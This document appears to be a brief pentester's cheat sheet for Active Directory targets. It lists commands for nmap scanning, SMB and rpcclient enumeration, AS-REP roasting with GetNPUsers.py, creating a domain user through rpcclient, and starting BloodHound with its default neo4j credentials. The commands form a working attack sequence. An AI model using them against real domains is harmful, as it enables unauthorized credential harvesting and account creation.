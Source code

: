 ### Nmap Scan 
- `nmap -p 53,135,139,88,389,445,464,593,636,3268,3269,5985,9389,49676,49696,49674,49675,49667,49666 -sV -sC -T16 -Pn -oA $IP $IP`

### Get Domain name
- `smbmap -H $IP`

### AS-REP roasting
AS-REP roasting is only applicable when set `Accounts Does not Require Pre-Authentication`

 EXPLOITING:
- `GetNPUsers.py $DOMAIN.local/ -dc-ip $IP -usersfile users.txt`



### rpcclient
- `rpcclient -U "" -N $DOMAIN` Connect to rpcclient
- `enumdomusers` Enumerate Domain Users
-  `queryuser $RID` Enumerate User
- `enumdomgroups` Enumerate Domain Groups
- `getdomwinfo` Domain Password Information 
- `createdomuser $NAME` ,`setuserinfo2 $NAME 24 $PASSWORD` Creating Domain User

<!-- -->
[Enumerating AD with rpcclient](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)

### BloodHound
starting BloodHound
- `sudo neo4j console`
- `bloodhound`
 <!-- -->
 
 Credentials
- `Username: neo4j`
- `Password: BloodHound`

<!-- -->

### Misc
- `smbmap -H $IP` list Samba shares